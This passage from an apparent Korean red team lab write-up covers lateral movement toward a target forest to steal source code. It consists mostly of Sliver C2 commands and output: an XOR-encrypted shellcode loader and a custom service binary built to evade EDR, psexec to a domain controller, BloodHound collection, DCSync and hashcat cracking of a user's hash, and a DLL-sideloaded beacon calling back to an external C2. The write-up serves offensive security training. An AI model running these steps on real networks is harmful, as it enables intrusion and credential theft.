



# 9. RT -> DEV 정보 수집

이번 섹션에서는 다음과 같은 주제들을 다룬다:

* 커스텀 슬리버 서비스 바이너리를 이용한 횡적 이동
* Cross-Forest BloodHound
* Foreign Local Administrator

<figure><figcaption></figcaption></figure>

레드팀의 주요 목표중 하나는 바로 in.dev.raccoon 도메인에 있는 소스코드를 확보 및 탈취하는 것이였다. RT라는 포레스트 루트 도메인까지 장악을 한 이유는 RT와 DEV(dev.raccoon)간의 도메인/포레스트 신뢰 관계 파악 때문이였다.

```
sliver (HEALTHY_JEWEL) > sharpview -- "Get-ForestTrust"

[*] sharpview output:
SourceName                     : rt.local
TargetName                     : dev.raccoon                                 
TrustDirection                 : Inbound
TrustType                      : Forest 
```

신뢰 관계 파악 결과, DEV -> TRUST -> RT 라는, RT 포레스트를 기준으로 INBOUND 신뢰 관계가 구축되어 있었다. RT는 포레스트 루트 도메인이니, 이왕 장악한 김에 모든 자식 도메인과 DEV까지 블러드하운드로 정보 수집을 진행해본다.

장악한 RT의 엔터프라이즈 관리자 권한을 바탕으로 RT, US, KR, DEV에 모두 블러드하운드를 날려본다. 여기까지 왔을 때 탐지가 안된 것으로 보아 해외법인쪽인 DEV 및 IN은 더 보안이 약할 것이라는 추론이 가능하다. 때문에 모든 정보를 가지고 오기 위해 `-c All,LoggedOn` 을 사용한다. DEV를 향한 블러드하운드는 PDC01에서 실행한다.

먼저 블러드하운드를 실행하기 전 UDC01 -> PDC01로의 횡적 이동이 필요하다.

이전까지 횡적 이동은 모두 슬리버의 기본 PSEXEC 명령어를 사용했다. 해당 명령어의 경우 슬리버의 소스 코드를 살펴보면 기본 슬리버 서비스 바이너리를 컴파일 한 뒤, 이를 업로드 하고, 윈도우 서비스를 대상 머신에서 실해앟는 방식으로 실행된다.

감시가 덜 한 SQL01, WEB01 등의 서버들한테는 괜찮지만, 도메인 컨트롤러들의 경우 관제, AV, EDR 들의 감시가 더 심한 경우가 있다. 때문에 이번에는 커스텀 슬리버 서비스 바이너리를 따로 만들어 횡적 이동을 진행한다.

<figure><figcaption></figcaption></figure>



간단하게 만든 탓에 Falcon과 Elastic에는 걸리지만, 그래도 간단한 AV/EDR 정도는 우회해서 실행 가능할 것 같다. 이제 커스텀 슬리버 서비스 바이너리를 이용해 UDC01에서 PDC01로 횡적이동한다.

```
// 1. UDC01.us.rt.local -> PDC01.rt.local

// UDC01에서 피벗 SMB 리스너 실행 
sliver (ORANGE_ZEBRA) > pivots named-pipe --bind mojo.10968.11628.5896583801798593583 --allow-all

// 피벗 SMB 에이전트 쉘코드 제작 
sliver (ORANGE_ZEBRA) > generate -f shellcode -p 10.2.30.10/pipe/mojo.10968.11628.5896583801798593583 -s /root/pdc01-namedpipe.bin

// XOR 암호화 
python3 /opt/pyHellShell/pyHellShell.py -i /root/pdc01-namedpipe.bin -e xor -k microsoft -f raw -out /root/pdc01-namedpipe-xor.bin

// PDC01로 쉘코드 업로드 (6번에서 RT\Administrator의 TGT를 PTT한 상태, 커버로스 인증 사용 - FQDN) 
sliver (ORANGE_ZEBRA) > upload /root/pdc01-namedpipe-xor.bin '//pdc01.rt.local/C$/windows/temp/20250120-crashdump.bin

// 피벗 
sliver (ORANGE_ZEBRA) > psexec -t 30 -c /root/sliversvc.exe -s DomainControllerUpdate -d "Domain Controller updater patch" pdc01.rt.local

[*] Uploaded service binary to \\pdc01.rt.local\C$\windows\temp\4__ephemeris__u3evn.exe
[*] Waiting a bit for the file to be analyzed ...
[*] Successfully started service on pdc01.rt.local (c:\windows\temp\4__ephemeris__u3evn.exe)
[*] Successfully removed service DomainControllerUpdate on pdc01.rt.local

[*] Session f2f3edf9 HEALTHY_JEWEL - tcp(127.0.0.1:44858)->2a06:98c0:3600::103->WORTHWHILE_PROMOTION->ORANGE_ZEBRA-> (pdc01) - windows/amd64 - Sat, 25 Jan 2025 03:11:56 UTC

sliver (ORANGE_ZEBRA) > sessions 

 ID         Transport   Remote Address                                                                    Hostname    Username              Operating System   Health  
========== =========== ================================================================================= =========== ===================== ================== =========
 d4392da6   http(s)     tcp(127.0.0.1:44858)->2a06:98c0:3600::103                                         uswkstn01   US\johndoe.smith      windows/amd64      [ALIVE] 
 4d3804f5   pivot       tcp(127.0.0.1:44858)->2a06:98c0:3600::103->WORTHWHILE_PROMOTION->                 udc01       NT AUTHORITY\SYSTEM   windows/amd64      [ALIVE]
 f2f3edf9   pivot       tcp(127.0.0.1:44858)->2a06:98c0:3600::103->WORTHWHILE_PROMOTION->ORANGE_ZEBRA->   pdc01       NT AUTHORITY\SYSTEM   windows/amd64      [ALIVE] 
```


PDC01에서 RT, KR, US, DEV를 상대로 블러드하운드를 실행한다

```
sliver (HEALTHY_JEWEL) > impersonate rt\\Administrator

sliver (HEALTHY_JEWEL) > inline-execute-assembly /root/funtimes.exe "-c All,Session --zipfilename crashdump --zippassword test -d rt.local"

sliver (HEALTHY_JEWEL) > inline-execute-assembly /root/funtimes.exe "-c All,Session --zipfilename crashdump --zippassword test -d kr.rt.local"

sliver (HEALTHY_JEWEL) > inline-execute-assembly /root/funtimes.exe "-c All,Session --zipfilename crashdump --zippassword test -d us.rt.local"

sliver (HEALTHY_JEWEL) > inline-execute-assembly /root/funtimes.exe "-c All,Session --zipfilename crashdump --zippassword test -d dev.raccoon --domaincontroller ddc01.dev.raccoon"

sliver (HEALTHY_JEWEL) > download 20250125122355_crashdump.zip /tmp/bh-dev.zip
```

이번 블러드하운드에서는 Cross-Forest 권한이나 로컬 관리자 권한 등에 대해서 찾아본다. `MATCH p=(m:User)-[r:AdminTo]->(n:Computer) RETURN m.name, n.name ORDER BY m.name` 사이퍼 쿼리를 사용하면 로컬 관리자 권한을 갖고 있는 유저들을 볼 수 있다. KR 도메인 내 특정 4명의 유저들이 `SESSIONJH01.DEV.RACCOON` 서버에 로컬 관리자 권한을 갖고 있다.


<figure><figcaption></figcaption></figure>

찾아본 결과 해당 유저들은 모두 ITADMINS@KR.RT.LOCAL 그룹의 멤버들이였다. IT 관리자들이 인도 개발 법인에 접속하기 위해 `SESSIONJH01` 서버를 이용하고 있다는 것을 유추할 수 있다.

<figure><figcaption></figcaption></figure>

세션 호스트나 점프호스트는 다양한 서버들에 접속하기 위해 사용하는 서버다. 많은 유저들이 사용하고 있을 확률이 높고, RDP 등의 트래픽은 모니터링 되고 있을 확률이 높다. DEV와 RT 사이를 계속해서 오가는 Cross-Forest로 행해지는 SMB 트래픽도 수상하게 느낄 확률이 높다.

그렇기 때문에 SESSIONJH01.dev.raccoon에는 맨 처음에 활용했던 초기 침투용 HTTPS 에이전트 페이로드를 업로드 한 뒤, 실행한다. 개발자들이 많은 법인의 세션 호스트에서 pages.dev 등으로 아웃바운드 트래픽이 날라가는 것은 그나마 좀 덜 수상하다고 느낄 가능성이 높다.

먼저 ITADMINS의 유저들의 비밀번호를 DCSYNC로 가져온 뒤, 크래킹 하고, SESSIONJH01에 접근 가능한지 확인한다.

```
// KR\ITADMINS의 유저 중 한명 NT 해시 획득 
sliver (HEALTHY_JEWEL) > mimikatz " \"lsadump::dcsync /domain:kr.rt.local /user:KR\\jeong.sangmi\" "

Credentials:
  Hash NTLM: d6c5976e07cdb410be19b84126367e3d

// 크래킹 
└─# echo 'd6c5976e07cdb410be19b84126367e3d' >  jeong-sangmi.hash
└─# hashcat -a 0 -m 1000 jeong-sangmi.hash /usr/share/wordlists/rockyou.txt --show 
d6c5976e07cdb410be19b84126367e3d:strawberry


// 접근 확인 
sliver (HEALTHY_JEWEL) > make-token -u jeong.sangmi -p strawberry -d kr.rt.local 
[*] Successfully impersonated kr.rt.local\jeong.sangmi. Use `rev2self` to revert to your previous token.

sliver (HEALTHY_JEWEL) > ls '\\10.2.100.100\c$' 

\\10.2.100.100\c$\ (17 items, 3.2 GiB)
======================================
drwxrwxrwx  $Recycle.Bin                        <dir>      Fri Jan 24 11:38:27 +0900 2025
drwxrwxrwx  Boot                                <dir>      Fri Dec 27 18:51:56 +0900 2024
-r--r--r--  bootmgr                             399.1 KiB  Sat Sep 07 09:28:49 +0900 2019
-rw-rw-rw-  BOOTNXT                             1 B        Sat Sep 15 16:12:30 +0900 2018
-r--r--r--  BOOTSECT.BAK                        8.0 KiB    Fri Dec 27 18:51:56 +0900 2024

```

SESSIONJH01에는 어떤 유저들이 있는지, 인터넷에 접근은 가능한지 원격으로 알아본다.

```
// 의미있는 세션은 없었다. 다들 퇴근한 모양 
sliver (HEALTHY_JEWEL) > sa-regsession sessionjh01.dev.raccoon

// socks5 + proxychains 로 curl 실행, 인터넷 접근 확인 
sliver (HEALTHY_JEWEL) > socks5 start

root@ip-10-1-14-169:~# proxychains netexec smb 10.2.100.100 -u jeong.sangmi -p strawberry -d kr.rt.local -x 'curl -I https://www.google.com'
SMB         10.2.100.100    445    SESSIONJH01      HTTP/1.1 200 OK
SMB         10.2.100.100    445    SESSIONJH01      Content-Type: text/html; charset=ISO-8859-1

```

HTTPS 에이전트를 업로드 한 뒤, 초기침투와 동일한 방식으로 DLL 사이드로딩을 실행한다. 이번에는 원격 프로세스 인젝션을 사용하지 않고, 로컬 프로세스 인젝션을 실행한다.

```
sliver (HEALTHY_JEWEL) > upload /root/onedriveupdater.exe '//10.2.100.100/C$/windows/temp/onedriveupdater.exe' 
sliver (HEALTHY_JEWEL) > upload /root/version.dll '//10.2.100.100/C$/windows/temp/version.dll' 

sliver (HEALTHY_JEWEL) > sharp-wmi action=exec computername=sessionjh01.dev.raccoon command="c:\\windows\\temp\\onedriveupdater.exe" username=KR\\jeong.sangmi password=strawberry

[*] sharp-wmi output:

[*] Host                           : sessionjh01.dev.raccoon
[*] Command                        : c:\windows\temp\onedriveupdater.exe
[*] User credentials               : KR\jeong.sangmi
[*] Creation of process returned   : 0
[*] Process ID                     : 10828

[*] Beacon 7059cea3 WORTHWHILE_PROMOTION - tcp(127.0.0.1:33402)->2a06:98c0:3600::103 (sessionjh01) - windows/amd64 - Sat, 25 Jan 2025 13:03:01 UTC
```

모든 공격과 횡적 이동이 끝나게 되면 SESSIONJH01에서 비컨 콜백을 하나 더 받을 수 있다.

<figure><figcaption></figcaption></figure>

이제 세션 호스트에서 얻은 비컨을 바탕으로 DEV에서의 권한 상승 및 라쿤 테크의 소스 코드가 있을 만한 서버를 찾아보자.


